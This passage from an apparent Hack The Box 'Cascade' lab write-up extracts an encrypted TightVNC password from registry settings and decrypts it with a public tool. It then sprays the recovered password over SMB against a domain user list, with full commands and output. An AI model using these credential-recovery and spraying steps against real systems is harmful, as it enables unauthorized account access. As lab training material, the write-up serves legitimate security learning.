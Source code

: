 ```
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""
```

We have a Password in hex. Interesting things from the above file
```
[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
###### `Cracking TightVNC Password`
This GitHub Repo [VNC Password Decryptor vncpwd](https://github.com/jeroennijhof/vncpwd) was used to decrypted the password. Here's the process. 
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# echo '6bcf2a4b6e5aca0f' | xxd -r -p > vnc_pass    # Notice the '6bcf2a4b6e5aca0f' is the HEX value we obtained from the file.

# git clone https://github.com/jeroennijhof/vncpwd.git
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb/vncpwd]
└─# gcc vncpwd.c -o vncpwd

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb/vncpwd]
└─# ./vncpwd ../vnc_pass 
Password: sT333ve2
```
We got another password. Let's see if any user uses this password.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Cascade.htb]
└─# netexec smb 10.10.10.182 -u users -p 'sT333ve2' --continue-on-success
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\arksvc:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [+] SMB cascade.local\s.smith:sT333ve2 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\r.thompson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\util:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.wakefield:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\s.hickson:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:sT333ve2 STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:sT333ve2 STATUS_LOGON_FAILURE 
```
